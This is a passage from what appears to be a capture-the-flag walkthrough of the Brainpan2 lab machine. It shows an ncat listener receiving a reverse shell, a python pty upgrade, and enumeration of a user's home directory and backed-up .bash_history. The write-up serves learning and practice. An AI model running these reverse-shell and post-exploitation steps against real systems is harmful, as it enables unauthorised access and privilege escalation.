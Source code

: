 And finally, on a third console:

{% highlight bash %}
» ncat -lvp 9095
Ncat: Listening on :::9095
Ncat: Listening on 0.0.0.0:9095
Ncat: Connection from 172.16.20.129.
Ncat: Connection from 172.16.20.129:38123.
python -c 'import pty; pty.spawn("/bin/sh")'
$ id
id
uid=1001(puck) gid=1000(anansi) groups=1001(puck),50(staff),1000(anansi)
{% endhighlight %}

Perfect, so we're now logged in as `puck`.
As usual, let's start exploring.

{% highlight bash %}
$ cd /home/puck
cd /home/puck
$ ls -la
ls -la
total 28
drwx------ 4 puck  puck  4096 Nov  5  2013 .
drwxr-xr-x 5 root  root  4096 Nov  4  2013 ..
drwxr-xr-x 3 puck  puck  4096 Nov  5  2013 .backup
-rw------- 1 puck  puck     0 Nov  5  2013 .bash_history
-rw-r--r-- 1 puck  puck   220 Nov  4  2013 .bash_logout
-rw-r--r-- 1 puck  puck  3392 Nov  4  2013 .bashrc
-rw-r--r-- 1 puck  puck   675 Nov  4  2013 .profile
drwx------ 2 puck  puck  4096 Nov  5  2013 .ssh
$ cd .backup
cd .backup
$ ls -la
ls -la
total 28
drwxr-xr-x 3 puck puck 4096 Nov  5  2013 .
drwx------ 4 puck puck 4096 Nov  5  2013 ..
-rw------- 1 puck puck  395 Nov  5  2013 .bash_history
-rw-r--r-- 1 puck puck  220 Nov  4  2013 .bash_logout
-rw-r--r-- 1 puck puck 3392 Nov  4  2013 .bashrc
-rw-r--r-- 1 puck puck  675 Nov  4  2013 .profile
drwx------ 2 puck puck 4096 Nov  4  2013 .ssh
{% endhighlight %}

Let's peek inside the `.bash_history` file.

{% highlight bash %}
$ cat .bash_history
cat .bash_history
# ...
ssh -l "root " brainpan2
# ...
mkdir .backup
mv .ssh .bash* .backup
cd .backup/
$
{% endhighlight %}
